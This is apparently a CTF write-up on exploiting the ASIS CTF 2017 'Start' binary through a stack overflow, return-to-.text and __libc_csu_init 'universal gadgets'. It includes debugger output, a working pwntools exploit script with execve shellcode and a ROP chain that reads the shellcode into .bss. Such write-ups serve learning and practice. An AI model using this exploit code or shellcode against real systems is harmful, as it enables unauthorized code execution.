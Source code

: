 # Return to .text section / Universal gadgets
## Circumvent mitigation techniques cause of lacking ROP gadgets or libc addy

--------------------------------------------------------------------------------
### Return to .text section
For this post I will use a task called "Start" from ASIS CTF 2017 as an simple but in my opinion extremely useful example
For this task you will be provided with a service that just allows you to put in data to it. At first let's check for mitigation mechanisms as usual

```
checksec --file ./Start $
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE
```

So all the mechanisms all disabled...Back to the 90's ?
Let's take a look into the assembly code:

```
push rbp
mov rbp, rsp
sub rsp, 0x20
mov dword [rbp - 0x14], edi
mov qword [rbp - 0x20], rsi
lea rax, qword [rbp - 0x10]
mov edx, 0x400
mov rsi, rax
mov edi, 0
call sym.imp.read
mov eax, 0
leave
ret
```
Ok...reservation of 32 bytes after rbp for locals and it's storing our read input buffer on stack regardless of the string's length we provide.
It's a simple overflow bug with allows us to do a classical RIP overwrite.

But wait...There isn't any information leak returning us any stack or libc addy. And besides that the binary is extremely small, so we won't be lucky in searching for any gadgets that allow us to do any stack pivoting.
#### "Prepare for the worst..."
Luckily there is a technique called "return to text" which can bypass the lack of any good gadgets regardless if ASLR is enabled or not.
Cause that binary isn't compiled with PIE, .text and .bss sections won't be randomized. In short terms this technique works as follows:

1. Overwrite RIP by the address of any function that can read user supplied data (e.g. read, gets...called "A" below)
2. Set return address after "A"
3. Set argument of "A"
4. When running "A" will ask for input data
5. Inject shellcode
6. When "A" finishes it will directly jump to our shellcode

#### x86-64 syscalls
If the binary is compiled for amd64 architecture any arguments provided to a function call will be passed by registers.
First in rdi, second in rsi, third in rdx, then rcx, r8, r9 and so on. If other arguments have to pass, they will have been pushed on the stack. Syscall num is provided by rax (you can use a tool called "shellnoob" to bet syscall nums).

#### Lack of gadgets
If you open the binary in any ROP-finding toolset, you will just find a total of 62 gadgets. It seems not to be possible to use any meaningful combination to set all the registers.
One possibility for circumvent would be to check if we have any register pointing to a location within our input buffer.
And voilá...When ```main``` returns it doesn't clear the registers:

```
gdb ./Start $
Loaded 101 commands.  Type pwndbg [filter] for a list.
Reading symbols from ./Start...(no debugging symbols found)...done.
pwndbg> r < <(python -c 'print "A"*32')
Starting program: /home/felix/Dokumente/CTF/asisCTF_2017/Start/Start < <(python -c 'print "A"*32')

Program received signal SIGSEGV, Segmentation fault.
0x0000000000400551 in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
[───────────────────────────────────────────────────REGISTERS───────────────────────────────────────────────────]
 RAX  0x0
 RBX  0x0
*RCX  0x7ffff7b165a0 (__read_nocancel+7) ◂— cmp    rax, -0xfff
*RDX  0x400
 RDI  0x0
*RSI  0x7fffffffe230 ◂— 'AAAAAAAAAAAAAAA...'
*R8   0x4005d0 ◂— ret
*R9   0x7ffff7de8a50 (_dl_fini) ◂— push   rbp
*R10  0x37b
*R11  0x246
*R12  0x400430 ◂— xor    ebp, ebp
*R13  0x7fffffffe320 ◂— 0x1
 R14  0x0
 R15  0x0
*RBP  0x4141414141414141 ('AAAAAAAA')
*RSP  0x7fffffffe248 ◂— 'AAAAAAAA\n'
*RIP  0x400551 ◂— ret
```

#### Exploit
So we just have to put return addy to rsi and go on with a pop rsi gadget.
Payload will consist into rwo parts:

1. padding(24 bytes) + pop_rsi + read + ret addy + garbage + read_plt + ret addy
2. shellcode

```python
#!/usr/bin/env python

from pwn import *

r=process("./Start")
elf=ELF("./Start")
context.os="linux"
context.arch="amd64"
scode="\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
read=elf.symbols['read']
pop_rsi_r15=0x004005c1
bss = elf.bss() + 0x100


def overwrite():
    padding = "\x90"*24
    payload = flat([padding,pop_rsi_r15, bss, "aaaabbbb", read, bss])
    log.info("Read  @ 0x{:08X}".format(read))
    log.info("BSS  @ 0x{:08X}".format(bss))
    raw_input("[DEBUG]")
    r.sendline(payload)
    r.sendline(scode)
    r.interactive()

def main():
    overwrite()
if __name__=="__main__":
    main()
```

### Using universal gadgets

We could also take advantage by the use of so called "universal gadgets"

>Every program before run into ```main()``` will call ```__libc_csu_init()```
>This function contains some useful gadgets to support you when preparing registers for sysalls

```
0000000000400550 <.__libc_csu_init>:

[*snip*]

4005a0:       4c 89 ea                mov    rdx,r13
4005a3:       4c 89 f6                mov    rsi,r14
4005a6:       44 89 ff                mov    edi,r15d
4005a9:       41 ff 14 dc             call   QWORD PTR [r12+rbx*8]

[*snip*]

4005ba:       5b                      pop    rbx
4005bb:       5d                      pop    rbp
4005bc:       41 5c                   pop    r12
4005be:       41 5d                   pop    r13
4005c0:       41 5e                   pop    r14
4005c2:       41 5f                   pop    r15
4005c4:       c3                      ret
```

Last seven instructions will pop values to registers and then return. Main idea will be to call these instructions/gadgets and jump to the first four after all.
So the ROP chain will look like this:

Sequence 1:
 Instruction | Expl |
 ------------- | ---------------------------------------------------------- 
 pop rbx | this register must be zero (it will be explained later on) 
 pop rbp | must be equal to one 
 pop r12 | address of instruction address 
 pop r13 | how many bytes to read 
 pop r14 | destination address of shellcode (e.g. .bss + 0x100) 
 pop r15 | some garbage 
 ret | put naxt garbage address 

2. Sequence 2:

| mov rdx,r13                   | set 3rd argument                                           |
| mov rsi,r14                   | set 2nd argument                                           |                                  
| mov edi,r15d                  | [1]                                                        |                                  
| call QWORD PTR [r12+rbx*8]    | [2]                                                        |
| add rbx, 1                      | [3]                                                      |
| cmp rbx, rbp                    | [3]                                                        |
| jne 0x40059                     | [3]                                                        |
| add rsp, 0x8                    | [4]                                                        |                                    
| pop rbx                         | put garbage                                                |
| pop rbp                         | put garbage                                                |
| pop r12                         | put garbage                                                |
| pop r13                         | put garbage                                                |
| pop r14                         | put garbage                                                |
| pop r15                         | put garbage                                                |
| ret                             | .bss + 0x100                                               |
